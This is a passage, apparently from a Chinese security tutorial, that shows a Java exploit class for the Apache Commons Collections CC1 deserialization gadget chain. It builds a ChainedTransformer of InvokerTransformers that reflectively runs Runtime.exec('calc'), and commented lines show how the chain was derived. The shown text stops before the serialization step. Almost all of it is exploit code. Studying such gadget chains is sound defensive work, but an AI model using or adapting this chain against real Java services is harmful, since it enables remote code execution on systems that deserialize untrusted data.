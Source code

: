 [![](assets/1701612311-ff087328cb43fbc08bca2aae6e789dab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235204-0c0f8ce4-20cc-1.png)

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{


//        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象//问题一：r不能序列化，没有继承序列化接口
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");


//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r,"calc");



//        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//        chainedTransformer.transform(Runtime.class);

```